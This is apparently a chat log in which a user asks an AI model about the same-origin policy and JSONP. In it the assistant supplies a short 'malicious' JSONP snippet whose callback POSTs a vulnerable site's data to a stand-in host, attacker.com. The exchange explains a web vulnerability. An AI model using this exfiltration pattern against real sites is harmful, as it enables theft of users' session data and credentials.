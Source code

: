 Rohan Verma
Example of javascript that same origin policy will block
An example of JavaScript that would be blocked by the same-origin policy would be a script that attempts to make an XMLHttpRequest (or similar) to a different domain than the one that served the web page.

For example, if a web page is served from "http://example.com", a script on that page that attempts to make an XMLHttpRequest to "http://other-domain.com/data.json" would be blocked by the browser due to the same-origin policy.

Here's an example of a JavaScript code that would be blocked by the same-origin policy:

Copy code
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://other-domain.com/data.json", true);
xhr.send();
This script attempts to make a GET request to "http://other-domain.com/data.json" using the XMLHttpRequest object, but the browser would block the request because "http://other-domain.com" is a different domain than "http://example.com" which served the web page.

However, if the script uses JSONP, it will be able to load the data, because JSONP uses script tags which are allowed by the same-origin policy.




Rohan Verma
Example of malicious js code that uses jsonp
Here is an example of malicious JavaScript code that uses JSONP to exploit a vulnerability on a website:

Copy code
// The attacker's server
function attackerCode(data) {
  // Send the data to the attacker's server
  var xhr = new XMLHttpRequest();
  xhr.open("POST", "http://attacker.com/steal-data", true);
  xhr.send(data);
}

// The malicious code
var script = document.createElement("script");
script.src = "http://vulnerable-site.com/data.json?callback=attackerCode";
document.body.appendChild(script);
This script creates a script tag that points to a JSONP endpoint on "http://vulnerable-site.com", and sets the callback function to be the attackerCode function. When the browser loads the script, it will execute the attackerCode function, which will send the data from the vulnerable site to the attacker's server.

This type of attack is possible because JSONP allows arbitrary JavaScript code to be executed in the user's browser, and it can be used to steal sensitive information from the user, such as session cookies, login credentials, and other sensitive data. It's important to note that JSONP is less secure than other methods such as CORS, and it is not recommended to use it in new developments.




Rohan Verma
callback query parameter
!
The callback query parameter is used in JSONP to specify the callback function that will be executed when the browser receives the JSON data. When making a JSONP request, the callback function is passed as a query parameter to the URL of the JSON data. The server then wraps the JSON data in a call to the specified callback function, and the browser executes the function call.
